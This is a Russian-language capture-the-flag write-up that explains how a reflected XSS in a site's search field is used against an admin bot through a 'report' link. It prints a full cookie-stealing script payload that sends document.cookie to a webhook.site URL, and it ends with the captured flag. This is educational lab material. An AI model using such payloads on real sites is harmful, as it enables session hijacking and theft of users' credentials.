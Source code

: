 # Клиент всегда прав: Write-up #
Нас встречает сайт с тремя ссылками на различные посты. Заметим, что иконки возле ссылок тоже кликабельные.

![](writeup/report.png)

И вот, какой url они выдают:

    http://62.173.140.174:16013/?report=http://62.173.140.174:16013/?publication=ilon-mask
Уже наводит на определённые крысиные мысли...

Теперь попробуем поковырять поисковую строку, не просто так же она здесь. Пробуем простейший xss:

    <script>alert(1)</script>
    
Есть контакт!

![](writeup/xss.png)

Раз уж есть xss и наивный админ, который смотрит наши репорты, можно попробовать украсть его куки. Вставим в параметр `report` ссылку с параметром `search`, в который запихнём xss.
Для принятия куки лучше использовать [webhook.site](https://webhook.site). Он генерирует ссылку, которую будем использовать в пэйлоаде. Итоговый xss:

    <script>document.location="https://webhook.site/033ff524-96a4-4482-ba69-92b7a21b289b/?c="%252bencodeURIComponent(document.cookie)</script>

Кидаем это в параметр `search` а затем получившейся ссылкой заменяем параметр `report`:

    http://62.173.140.174:16013/?report=http://62.173.140.174:16013/?search=<script>document.location="https://webhook.site/033ff524-96a4-4482-ba69-92b7a21b289b/?c="%252bencodeURIComponent(document.cookie)</script>

Идём смотреть куки на вебхуке и видим флаг:

`flag=CODEBY{r3fl3cted_XSS_expl0it3d}`
